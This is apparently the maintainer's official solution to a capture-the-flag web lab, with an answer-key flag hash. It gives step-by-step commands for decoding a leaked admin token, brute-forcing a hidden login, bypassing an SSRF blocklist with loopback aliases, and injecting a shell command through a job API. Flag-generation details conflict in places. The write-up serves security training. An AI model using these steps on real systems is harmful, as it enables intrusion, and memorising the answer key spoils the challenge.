> **Spoiler warning — maintainer/evaluator material.** This is the
> author's full solution. Do not distribute to players; see
> `../README.md` and `player-briefing.mdx` instead.

# Official solution — VaultCorp

## Chain summary

```
Register (isolated tenant auto-provisioned)
  -> /js/user-utils.js (per-tenant JS fixture)
       -> XOR(0x42) + Base64 decode -> admin LocalId + ApiToken
  -> /support_login (unlinked endpoint, found via brute-force
     or by noticing /login rejects an id/token pair)
       -> Admin session
  -> /admin/import (SSRF sink, Admin-only)
       -> naive string-blacklist WAF blocks "127.0.0.1" / "localhost" / etc.
       -> alternate loopback literal ("127.1") bypasses it
  -> SSRF reaches /internal/api/create (loopback-trusting job API)
       -> Hangfire job created: CommandExecutorJob.Run("cat /app/flag.txt", <file>)
  -> job output written to wwwroot/<file>
  -> GET /<file> -> flag
```

See `challenge-design.mdx`'s "Stage boundaries" for why each step gates
the next, and `security-report.mdx` for the full vulnerability-by-
vulnerability root-cause writeup.

## Flag

`flag_hash` (SHA-256, matches `../lab.yml`):
`f95a1894ac5384d0677fb251eeb64096aaa25e840cc72477e12de49b15d340cd`

The flag is baked into the deployed image at build time
(a fixed `ARG` default in `app/Dockerfile`) and is the same for every
tenant in a given deployment — see `challenge-design.mdx`, "Determinism
and flag design."

---

## Full narrated walkthrough (with screenshots)

Full solve, step by step, exactly as a participant would experience it.
Screenshots are in `images/`.

### Stage 1 — JavaScript source analysis (XOR + Base64)

#### Step 1 — Register and log in

Navigate to the target and register a normal account. This creates a
fully isolated tenant on the backend — a fake company with its own admin
account and noise employees. (The flag itself is baked into the
deployed image at build time and is the same for every tenant in this
deployment — it's the tenant's *account data* that's unique per
registration, not the flag.)



#### Step 2 — Open Profile and view page source

After logging in, navigate to `/profile`. Open **View Page Source**
(Ctrl+U).

Near the bottom, two external JS files are loaded:

```html
<script src="/js/user-utils.js"></script>
<script src="/js/internal.js"></script>
```

Neither file has an obvious name that suggests a vulnerability, but any
curious tester will open both.

#### Step 3 — Open `/js/user-utils.js`

Navigate directly to `/js/user-utils.js`. The file contains obfuscated
JavaScript:

```jsx
(function(w,d){
    var _k=0x42;
    var _x=function(s){
        var b=atob(s),o='';
        for(var i=0;i<b.length;i++){
            o+=String.fromCharCode(b.charCodeAt(i)^_k);
        }
        return o;
    };
    var _c=[
        {n:"stg-01", e:"YWLfa4BPmIAavqQc..."},
        {n:"stg-02", e:"TQkGA817tObdwZRy..."},
        {n:"prod",   e:"dnp4NikdOhAFJBEH..."}
    ];
    ...
```

Key observations:

- `_k = 0x42` — this is an XOR key (66 decimal)
- `_c` — array of 3 entries with base64-encoded values
- The algorithm is: `Base64 decode → XOR each byte with 0x42`



#### Step 4 — Decode the values

Open the browser console and run the decode function on all three
entries:

```jsx
function decode(s) {
    var b = atob(s), o = '';
    for (var i = 0; i < b.length; i++)
        o += String.fromCharCode(b.charCodeAt(i) ^ 0x42);
    return o;
}

decode("YWLfa4BPmIAavqQc...")
decode("TQkGA817tObdwZRy...")
decode("dnp4NikdOhAFJBEH...")
```

Only the `prod` entry produces a meaningful result in the format
`{id}:tk_{token}`.

```
Admin LocalId : 48
Admin Token   : tk_xRGfSEDLytYTE4qsz5BR4xLr
```

### Stage 2 — Hidden endpoint discovery (directory brute-force)

#### Step 5 — Try `/login` with the credentials

Attempting to use the id/token at the standard `/login` endpoint fails —
it expects a username and password, not an id/token pair.

This indicates there is a separate authentication path not linked from
any button or menu.

#### Step 6 — Run directory brute-force

```bash
ffuf -u http://<target>:5000/FUZZ \
     -w /usr/share/seclists/Discovery/Web-Content/common.txt \
     -mc 200,301,302 \
     -t 50
```

Result:

```
support_login    [Status: 200, Size: ...]
```



#### Step 7 — Log in via `/support_login`

Navigate to `/support_login`. A stripped-down form asks for a
**Reference ID** and **Access Token**.

```
Reference ID : 48
Access Token : tk_xRGfSEDLytYTE4qsz5BR4xLr
```

Submit — logged in as Admin. ✅




### Stage 3 — SSRF with WAF bypass

#### Step 8 — Discover the import feature

In the Admin Panel, navigate to `/admin/import`. This feature takes a
URL and the **server** fetches it on the user's behalf (server-side
request).



#### Step 9 — Attempt SSRF — WAF blocks it

Try to reach internal addresses:

```
http://localhost/test
http://127.0.0.1/test
```

Both return the WAF block page:

```
🛡 Request Blocked
HTTP 403 — Web Application Firewall
Rule: WAF_BLOCK_001 — SSRF-PROTECTION-LOOPBACK
```



#### Step 10 — Bypass the WAF with IP obfuscation

The WAF performs **string matching** on the URL, not IP resolution. It
blocks literal strings like `localhost` and `127.0.0.1`, but misses
alternative representations of the same address.

Known bypass techniques (from OWASP WSTG):

| Representation | Value |
| --- | --- |
| `127.1` | IP shorthand — valid loopback on all OS |
| `2130706433` | Decimal form of 127.0.0.1 |
| `017700000001` | Octal form |
| `0x7f000001` | Hex form |

Try:

```
http://127.1/test
```

Response:

```
FETCH_FAILED — Connection refused
```

Different error — no WAF block. The bypass worked. The server tried to
connect but port 80 has nothing listening.



### Stage 4 — Internal port scanning via SSRF

#### Step 11 — Enumerate ports

Use the Import feature as a port scanner by trying different ports:

```
http://127.1:5000/
```

Returns the VaultCorp homepage HTML — the application itself is on port
5000.

```
http://127.1:5000/hangfire
```

Returns a full HTML page titled **"Overview – Hangfire Dashboard"**. ✅



### Stage 5 — Hangfire dashboard enumeration

And there we found two paths in the source code:



#### Step 12 — Browse the recurring jobs

The dashboard navbar shows `Recurring Jobs (2)`. Navigate to:

```
http://127.1:5000/hangfire/recurring
```

The recurring jobs table shows:

```
maintenance-runner → CommandExecutorJob.Run
db-cleanup         → DatabaseCleanupJob.Execute
```

This reveals that a class named `CommandExecutorJob` with a method `Run`
exists in the application.



#### Step 13 — Read the internal notes file

Recall from Stage 1 that the profile page loads `/js/internal.js`. Fetch
it via SSRF:

```
http://127.1:5000/js/internal-notes.js
```

The file contains a developer comment:

```jsx
/*
 * Internal Job Creation API (loopback only):
 *   GET /internal/api/create
 *       ?type   = VaultCorp.Jobs.CommandExecutorJob,VaultCorp
 *       ?method = Run
 *       ?arg0   = shell command
 *       ?arg1   = output filename (written to /app/wwwroot/<arg1>)
 *
 */
```



### Stage 6 — Remote code execution → flag

#### Step 14 — Inject a malicious Hangfire job

Using the Import feature, call the internal job creation API:

```
http://127.1:5000/internal/api/create?type=VaultCorp.Jobs.CommandExecutorJob,VaultCorp&method=Run&arg0=cat+/app/flag.txt&arg1=flag_out.txt
```

Response:

```json
{
  "status": "queued",
  "jobId": "dfde6acf-67cb-48b0-9203-80e80515b6ca",
  "note": "Output written to /app/wwwroot/flag_out.txt"
}
```



#### Step 15 — Read the flag

```
http://127.1:5000/flag_out.txt
```



```
duck{…}
```

> **Note (screenshot provenance):** this screenshot run predates the
> current `lab.yml`'s `flag_hash`. The flag is generated fresh at image
> build time (`docker-compose.yml`'s `FLAG` build arg) and the value
> shown above (`duck{…}`) is
> specific to that earlier build — it will not match a freshly built
> image's flag. The chain of steps above (Stages 1–6) is unaffected; only
> the flag string itself changes per build. The current, correct flag
> and its hash are given above in "Flag" and recorded in `../lab.yml`.

### Exploit chain summary

```
Register (isolated tenant auto-created)
  ↓
Profile page → /js/user-utils.js → XOR+Base64 decode → Admin id+token
  ↓
ffuf directory brute-force → /support_login → Admin login
  ↓
/admin/import → SSRF → WAF bypass (127.1) → port 5000
  ↓
/hangfire/recurring → CommandExecutorJob.Run discovered
  ↓
/js/internal.js → /internal/api/create endpoint
  ↓
Job injection → cat /app/flag.txt → flag_out.txt
  ↓
duck{...}
```
